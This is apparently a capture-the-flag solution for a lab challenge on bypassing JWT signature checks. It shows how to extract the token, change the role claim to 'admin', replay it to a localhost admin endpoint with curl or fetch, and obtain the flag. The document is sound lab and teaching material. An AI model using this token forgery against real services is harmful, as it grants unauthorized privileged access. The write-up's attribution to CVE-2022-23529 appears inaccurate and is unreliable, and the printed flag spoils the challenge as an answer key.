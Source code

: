 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up
   
  •	Create an account to be automatically assigned the "user" role.

2. Login

  •	After account creation, you’ll be redirected to the login page.
  •	Use the same credentials to log in.
  •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
   
  a. Open the console:
    •	On MacOS, press (Option + Command + J).
    •	On Windows, press (Ctrl + Shift + J).
    
  b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
  c. Run the following command in the console to get the token, containing three parts, each separated by a period (.):

     localStorage.getItem('token');
   
  d. The token role will be "user" as per your credentials.
  e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
  a. Change the role to "admin".

    For example:
    {
      "username": "isabella",
      **"role": "admin",**
      "iat": 1738901843,
      "exp": 1738905443
    }
  b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
  c. Your JWT is now modified.

5. Send the Manipulated JWT to the Server (2 ways)
You can use one of the following methods to send the modified JWT to the server:

a. Using cURL (command line):
  •	Open your terminal and type:
  
    curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin

b. Using the Browser Console:
  •	Run this JavaScript:
  
    fetch("http://localhost:3000/admin", {
        method: "GET",
        headers: {
            "Authorization": "Bearer MANIPULATED-JWT"
        }
    })
    .then(response => response.json())
    .then(data => console.log(data))
    .catch(error => console.error("Error:", error));

6. Access the Admin Endpoint and Retrieve the Flag
  a. The server will decode the manipulated token and grant admin access.
  b. The server will respond with the flag:

   {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (jsonwebtoken <=8.5.1): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.


Ensure that all dependencies required to build or run the solution are provided (e.g., `requirements.txt`) or thoroughly documented.
